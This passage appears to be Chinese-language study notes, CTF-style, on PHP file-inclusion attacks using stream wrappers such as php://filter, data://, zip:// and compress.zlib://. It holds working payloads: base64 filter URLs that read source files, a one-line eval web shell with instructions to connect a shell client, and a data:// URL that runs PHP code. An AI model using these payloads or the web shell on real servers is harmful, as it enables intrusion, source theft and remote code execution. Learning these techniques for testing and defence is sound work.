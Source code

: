   *用于读取文件（增加base64编码）：*
  
  ```
  ?page=php://filter/read=convert.base64-encode/resource=index.php
  // 将php文件通过base64编码读出（"read="可以省略），若不用base64编码，php文件就会作为脚本执行，无法输出源代码。
  
  ?file=php://filter/read=convert.base64-encode/resource=flag.php
  //读取文件源码
  ```
  
  *用于解析（执行）文件，可用于getshell：*
  
  ```
  用于GetShell（shell.txt需通过文件上传在目标服务器上）：
  木马文件（shell.txt）内容：<?php @eval($_POST['x']);?>
  
  然后菜刀连接 http://localhost/test.php?file=php://filter/resource=./1.txt 即可。
  ```

### data://

**需要allow_url_fopen=On，allow_url_include=On。**

将data://所指内容 **执行**。

```
data://text/plain,待执行的文本内容
```

`http://127.0.0.1:8080/include.php?filename=data://text/plain,<?php%20phpinfo(); ?>`

![image-20220805094336370](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805094336370.png)

### zip://

压缩流，可以访问压缩文件中的子文件，将子文件的内容当做 php 代码 **执行**。

**不受 allow_url_fopen、allow_url_include 影响。**

```
?page=zip://D:/phpStudy/WWW/file.zip%23code.txt

格式：
zip://[压缩包绝对路径]#[压缩包内的子文件名]
注：文件路径必须为绝对路径；zip文件后缀名可以改为其他如图片后缀；#进行url编码为%23
```

### zlib://、bzip2://

压缩流，可以访问压缩文件中的子文件，将子文件的内容当做 php 代码 **执行**。

**不受 allow_url_fopen、allow_url_include 影响。**

```
?page=compress.zlib://file.zip
注：文件路径无绝对路径限制；zlib://协议文件压缩为zip或gz都可以，bzip2://协议文件压缩为bz2；后缀名也可以改为其他，如图片后缀
```

